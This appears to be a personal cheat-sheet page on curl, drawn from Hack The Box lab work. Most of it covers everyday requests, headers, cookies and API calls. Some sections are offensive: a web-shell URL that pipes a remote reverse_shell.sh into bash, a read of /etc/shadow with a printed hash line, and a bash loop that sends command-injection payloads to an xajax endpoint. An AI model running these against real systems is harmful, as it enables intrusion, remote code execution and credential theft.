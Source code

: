 # ⚙️ curl

Tags: #⚙️
Related to:
See also: [[wget]]
Previous:

## Description

transfer a URL

## Usage Examples

### Cheatsheets

| **Command** | **Description** |
| --------------|-------------------|
| `curl -h` | cURL help menu |
| `curl inlanefreight.com` | Basic GET request |
| `curl -s -O inlanefreight.com/index.html` | Download file |
| `curl -k https://inlanefreight.com` | Skip HTTPS (SSL) certificate validation |
| `curl inlanefreight.com -v` | Print full HTTP request/response details |
| `curl -I https://www.inlanefreight.com` | Send HEAD request (only prints response headers) |
| `curl -i https://www.inlanefreight.com` | Print response headers and response body |
| `curl https://www.inlanefreight.com -A 'Mozilla/5.0'` | Set User-Agent header |
| `curl -u admin:admin http://<SERVER_IP>:<PORT>/` | Set HTTP basic authorization credentials |
| `curl  http://admin:admin@<SERVER_IP>:<PORT>/` | Pass HTTP basic authorization credentials in the URL |
| `curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/` | Set request header |
| `curl 'http://<SERVER_IP>:<PORT>/search.php?search=le'` | Pass GET parameters |
| `curl -X POST -d 'username=admin&password=admin' http://<SERVER_IP>:<PORT>/` | Send POST request with POST data |
| `curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/` | Set request cookies |
| `curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' http://<SERVER_IP>:<PORT>/search.php` | Send POST request with JSON data |

#### APIs
| **Command** | **Description** |
| --------------|-------------------|
| `curl http://<SERVER_IP>:<PORT>/api.php/city/london` | Read entry |
| `curl -s http://<SERVER_IP>:<PORT>/api.php/city/ \| jq` | Read all entries |
| `curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'` | Create (add) entry |
| `curl -X PUT http://<SERVER_IP>:<PORT>/api.php/city/london -d '{"city_name":"New_HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'` | Update (modify) entry |
| `curl -X DELETE http://<SERVER_IP>:<PORT>/api.php/city/New_HTB_City` | Delete entry |

### Get help by man page category

```shell-session
 auth        Different types of authentication methods
 connection  Low level networking operations
 curl        The command line tool itself
 dns         General DNS options
 file        FILE protocol options
 ftp         FTP protocol options
 http        HTTP and HTTPS protocol options
 imap        IMAP protocol options
 misc        Options that don't fit into any other category
 output      Filesystem output
 pop3        POP3 protocol options
 post        HTTP Post specific options
 proxy       All options related to proxies
 scp         SCP protocol options
 sftp        SFTP protocol options
 smtp        SMTP protocol options
 ssh         SSH protocol options
 telnet      TELNET protocol options
 tftp        TFTP protocol options
 tls         All TLS/SSL related options
 upload      All options for uploads
 verbose     Options related to any kind of command line output of curl
```

	curl --help ssh

```shell-session
Usage: curl [options...] <url>
ssh: SSH protocol options
     --compressed-ssh Enable SSH compression
     --key <key>      Private key file name
     --pass <phrase>  Pass phrase for the private key
```

### Get reverse shell

	http://10.129.171.59/templates/protostar/htb.php?pwn=curl 10.10.17.201/reverse_shell.sh | bash

### Get local file

	curl file:///etc/shadow

```shell-session
floris:$6$yl7KKyGaOhVExlCb$ONJceChbI7srpLlJ/AhCLgESU7E4gXexPVgsJMjvQ0hP.6fwslfwWmD15cuaYs9./Jin4e/4LURPgEBav4iv//:17673:0:99999:7:::
```

### Send exploit through proxy using -x flag to see what it's doing:

Modify source code to run through proxy:

```bash
#!/bin/bash
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl -x 'http://127.0.0.1:8080' --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Here's how the script works:

	curl
	xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E	// payload
	echo \"BEGIN\";${cmd};echo \"END\"	// echo BEGIN and END between the command we run
	sed -n -e '/BEGIN/,/END/ p'			// it send that to sed and grabs everything between BEGIN and END

### Follow redirects

	curl L https://www.inlanefreight.com

### Authenticate with cookie and send POST request to retrieve json data

	curl -X POST -d '{"search":"flag"}' -H 'Cookie: PHPSESSID=6eaubqoi86fevu4knlpi2cg7e3' -H 'Content-Type: application/json' 'http://<IP>:<port>/search.php'

```shell-session
["flag: HTB{  }"]
```

### Format json responses

#### Get raw json

	curl http://<SERVER_IP>:<PORT>/api.php/city/london

```shell-session
[{"city_name":"London","country_name":"(UK)"}]
```

#### Get formatted json

	curl -s http://<SERVER_IP>:<PORT>/api.php/city/london | jq

```shell-session
[
  {
    "city_name": "London",
    "country_name": "(UK)"
  }
]
```

# References